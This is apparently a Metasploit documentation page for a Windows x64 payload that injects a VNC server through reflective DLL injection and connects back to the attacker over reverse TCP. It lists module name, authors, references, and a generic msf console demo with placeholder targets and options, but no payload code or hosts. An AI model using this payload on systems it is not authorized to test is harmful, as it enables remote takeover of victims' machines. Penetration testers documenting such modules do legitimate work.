 ## Windows x64 VNC Server (Reflective Injection), Windows x64 Reverse TCP Stager

Inject a VNC Dll via a reflective loader (Windows x64) 
(staged). Connect back to the attacker (Windows x64)


## Module Name
payload/windows/x64/vncinject/reverse_tcp

## Authors
* sf


## References
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/rapid7/ReflectiveDLLInjection




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/x64/vncinject/reverse_tcp
msf payload(reverse_tcp) > show targets
   ... a list of targets ...
msf payload(reverse_tcp) > set TARGET <target-id>
msf payload(reverse_tcp) > show options
   ... show and set options ...
msf payload(reverse_tcp) > run
```
    
    